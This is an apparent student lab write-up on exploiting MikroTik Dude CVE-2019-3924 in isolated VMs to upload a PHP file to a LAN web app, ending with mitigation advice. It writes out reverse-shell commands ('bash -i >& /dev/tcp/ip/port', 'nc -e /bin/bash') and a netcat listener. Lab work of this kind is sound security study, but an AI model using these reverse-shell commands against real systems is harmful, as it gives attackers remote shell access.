






Okay, cool, we need to do exploit.

The setup is:

| Who                | network_internal | network_nat     |
|--------------------|------------------|-----------------|
| ubuntu vm          | 192.168.100.248  |                 |
| mikrotik router vm | 192.168.100.234  | 192.168.122.107 |
| Kali               |                  | 192.168.122.104 |

The ip for Ubuntu vm was gotten from the mikrotik using DHCP, so IP can change sometimes (I did the lab during a few days). Just bare in mind that if there is an IP 192.168.100.\*, but the \* != 234, then it's Ubuntu.

# VMs & networks

There was some (3h) configuration of VMs (qemu/kvm), because ubuntu did not want to connect to mikrotik, and I tried bridging (which required many scary commands on the host OS), a fully open network (which is bad) and an isolared network (which I settled on), with different VM network adapter types, and finally it did work! Then the plain old NAT worked to connect kali to mikrotik.


I could use host OS instead of kali, because ubuntA and mikrotik were on an isolated (even from the host) network, but I decided that would be boring and went for a full blown Kali (but was testing on host).

# CHR

To configure chr, I got scared of the strange shell provided by default, so I went for winbox. However, I did not want to use the heavy altirrely (AUR and wine) and went for a windows 10 VM, which I connected to NAT and configured from. The unfortunate thing was, windows likes storage, and my SSD does not meet its demads, so windows got borked and I still needed to use AUR and wine. Fortunately, it did not bork my main OS yet.

The chr config can be found at [chr_config.txt](chr_config.txt).

# Exploit code

The exploit code is not that hard to make, but there is one problem. It does not compile!

The exploit was found in 2019, and Boost was way different back then. I needed to patch the utils that used some boost functionality to compile with the newer boost. Fortunately, someone has already done similar patches on a random github repository, so I sneakily looked at their pull request and transferred the knowledge to the exploit.

Here you can see the old code sample commented out and the new written:



Now I just need to init the Ubuntu VM using:

```
/tool fetch url="http://192.168.100.248/init.php\?email=husiev.pn@ucu.edu.ua" http-method=get dst-path=smth.txt
```

# Yay, everything is done - let's launch

Okay, so now we have everything we need, right? right?

Yeah, so when I do init from kali, I get timeouts! What might be wrong???

I had no clue, and could not debug myself out.

Fortunately, if you chroot from host into ubuntu, you can just change the root password - cool. Now you can login and try debugging the application.

It turns out, it uses apache - so we need to look into /var/www - there is a directory `webapp` with lots of scripts. We just need to add debug output into a file (ask Claude 3.7 Sonnet to write some php for debugging) - it turns out, the request is got, but something goes wrong.

Okay, let's add debug prints to init.sh - yay, we found the issue: it does not git clone! wait, what? But I can do `ping github.com` or curl something - why can't I clone? It just hangs trying to clone, and then says something about gnu tls errors - internet has no idea, what went wrong.

A few more hours, and it turns out that if I turn off my VPN, everything starts working - huh?



Now I just have to listen at port 1337 (using `nc -lvp 1337`) and ask Dude politely to ask Ubuntu politely to create `a.php`, which would pipe bash into 1337 port of host's IP.

# Now everything is alright, right?

Well, no.

It turns out that having 4 VMs (one of which is windows) and 4 browsers opened at the same time, while having 8 GiB of RAM might be a bad idea - slooow.



Oh, wait, no no no! Applications go brrrr.


Fortunately, the VMs stayed intact. Now everything has to work.

Well yes, but actually no. The ubuntu does receive the request to create a file `a.php`, it creates the file, but host does not receive any response: neither at port it is listening to for bash, nor as an http response. Damn!

Lots of tries (and some random stuff appearing in mikrotik) later, I managed to make mikrotik ping the host (I believe some rules in the firewal to pass trafic from inside to 192.168.100* resolved the issue, but I'm no longer sure). But the request still fails.

Some time later it turned out that I need to turn off port `1337` in my firewall at host - I should have thought about it earlier!



# Yay

It was at this moment that everything worked! Yay!



The flag can be found at [flag](flag.txt)

And, to prove that we can't ping the ubuntu from kali:



And here is Ubuntu's network settings:

[ubuntu_network](ip_a_ubuntu.txt)

# How my code works

Basically things changed:
- From using /upload switch to using /api_upload (and give not only the file, but also the key)
- Change from using `nc ip:port -e /bin/bash` to `bash -i >& /dev/tcp/ip/port 0>&1`
- Remove stuff checking for NUUO NVR
- Add the key to the request (I got it from the rooted ubuntu - I hope it's not a mortal sin...)

The full code can be viewed at [poc/cve_2019_3924/src/main.cpp](poc/cve_2019_3924/src/main.cpp)

# Essay!

So the exploit exploits Mikrotik Dude's vulnerability, which allows to send a request to Mikrotik, and Dude will get confused and send another request we want to a device behind the router (in a LAN network).

Therefore, if the area is assumed to be trusted, we can exploit it, even though it is behind a router. In our case there exists a simple uploader: it takes a file and stores it in the same folder the php file is located. What we do is upload another php file, which will get sources - this way we add our custom endpoint! At this stage the rest is simple: launch bash and pipe it into a socket to the desired ip:port - the attackers ip and port. Now we have bash access!

What can we do? First of all, turn on automatic updates (if mikrotik or another router allows so) - otherwise just regularly update. Secondly, we should imcorporate a zero-trust architecture - we do not trust anyone, even on LAN, and pentest with the assumption that anyone has access to the network. Lastly, the fix for this specific application vulnerability is storing files in a sensitive location. One way to counter this is to make chroot into a subdirectory for files only - thus the attacker couldn't upload files anywhere, except e.g. /var/www/webapp/uploads/
